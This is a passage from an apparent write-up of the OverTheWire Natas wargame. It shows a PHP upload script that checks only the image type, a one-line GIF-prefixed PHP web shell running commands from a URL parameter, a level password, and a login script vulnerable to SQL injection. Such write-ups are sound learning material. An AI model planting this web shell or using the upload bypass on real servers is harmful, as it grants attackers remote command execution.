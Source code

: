 ```php
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
Looking this code, the only thing that is checked is the file type. You can trick file uploaders by changing the magic bytes of a file. Creating a php script:
```php
GIF89a;
<? system($_GET['cmd']); ?>
```
Should do the trick. Don't forget to change the extension in your proxy.

## natas14
```
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
Da Source code
```php

<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
```